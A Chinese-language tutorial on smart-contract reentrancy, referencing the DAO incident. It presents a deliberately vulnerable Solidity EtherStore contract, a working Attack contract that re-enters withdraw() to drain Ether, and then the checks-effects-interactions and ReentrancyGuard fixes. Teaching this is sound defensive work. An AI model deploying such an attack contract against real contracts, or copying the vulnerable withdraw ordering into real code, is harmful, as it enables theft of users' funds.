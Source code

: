 The Reentrancy Attack是对智能合约很危险的一种攻击，著名的案例就是16年的DAO事件，直接导致了以太坊的硬分叉。

下面将介绍可重入攻击。

# Understanding the Reentrancy Vulnerability

重入漏洞本质上是状态同步的问题，有点类似多线程下的不安全问题。

重入攻击通常分为两步：

1. 被攻击合约调用攻击合约的外部函数并转移执行流程。
2. 在攻击合约函数中，利用某些技术再次调用被攻击合约的漏洞函数。



EVM是单线程的，因此当重新进入合约状态更新有问题的函数中时。这使得攻击者可以重复执行某些代码逻辑，从而实现意想不到的行为。典型的攻击模式涉及多次重复的资金提取。



#  Reentrancy Vulnerable Contract

```solidity
contract EtherStore {

  mapping(address => uint256) public balances;
  // 存钱
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }
  // 取钱
  function withdraw() public {
    uint256 bal = balances[msg.sender];
    require(bal > 0);
    // 向外部合约发送以太币，向msg.sender发送eth，发送之后当前地址的余额应该为0，所以后续会有balances[msg.sender] = 0
    (bool sent,) = msg.sender.call{value: bal}("");
    // 为假的时候抛出error
    require(sent, "Failed to send Ether");
    // 清空余额
    balances[msg.sender] = 0;
  }

  // Helper function to check the balance of this contract
  function getBalance() public view returns (uint256) {
    return address(this).balance;
  }
}
```



```solidity
contract Attack {
  
  EtherStore public etherStore;
  uint256 public constant AMOUNT = 1 ether;

  constructor(address _etherStoreAddress) {
    etherStore = EtherStore(_etherStoreAddress);
  }

  // receive 是合约收到ETH时默认执行的函数。也就是call方法调用后会立刻执行这个函数。
  receive() external payable {
    // 如果目标合约余额满足条件，将再次调用withdraw函数，触发重入，由于目标合约中用于的余额仅在最后一步更新，因此条件require(bal > 0)仍然成立。
    if (address(etherStore).balance >= AMOUNT) {
      etherStore.withdraw();
    }
  }

  function attack() external payable {
    require(msg.value >= AMOUNT);
    etherStore.deposit{value: AMOUNT}();
    etherStore.withdraw();
  }

  // Helper function to check the balance of this contract
  function getBalance() public view returns (uint256) {
    return address(this).balance;
  }
}
```

由于`call`方法在`balances[msg.sender] = 0`之前，调用call之后执行receive函数，再次调用withdraw，因为余额没有更新，require语句通过了检查，允许攻击合约重复提取ETH。



要避免重入，可以先更新余额，再进行转账

```solidity
function withdraw() public {
  // 1. Check
  uint256 bal = balances[msg.sender];
  require(bal > 0);

  // 2. Effects
  balances[msg.sender] = 0;

  // 3. Interactions
  (bool sent,) = msg.sender.call{value: bal}("");
  require(sent, "Failed to send Ether");
}
```



另一个方法是加不可重入锁:

```solidity
contract ReentrancyGuard {
  bool internal locked;

  modifier nonReentrant() {
    require(!locked, "No reentrancy");
    locked = true;
    _;
    locked = false;
  }
}

import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
contract EtherStore is ReentrancyGuard {

  function withdraw() public nonReentrant {
    uint256 bal = balances[msg.sender];
    require(bal > 0);

    (bool sent,) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
  }

  // ...
}
```
